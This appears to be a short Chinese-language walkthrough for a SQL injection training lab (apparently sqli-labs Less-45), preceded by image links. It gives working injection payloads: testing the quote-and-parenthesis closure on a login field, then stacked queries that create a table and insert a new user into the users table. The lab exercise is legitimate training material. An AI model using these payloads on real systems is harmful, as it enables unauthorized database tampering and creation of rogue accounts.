





# Less - 45

---

# 通关教程

---

## 1、判断闭合

---

```http
admin# #登入失败
admin'# #登入失败
admin')# #登入成功
```

​​

判断闭合方式为')#，并且为字符型注入

---

## 2、创建一个表

---

```http
a');create table test like users;#
```

​​

​​

## 3、创建一个新的用户

---

```http
a');insert into users values(18,'cmx','cmx');#
```

​​

​​

‍
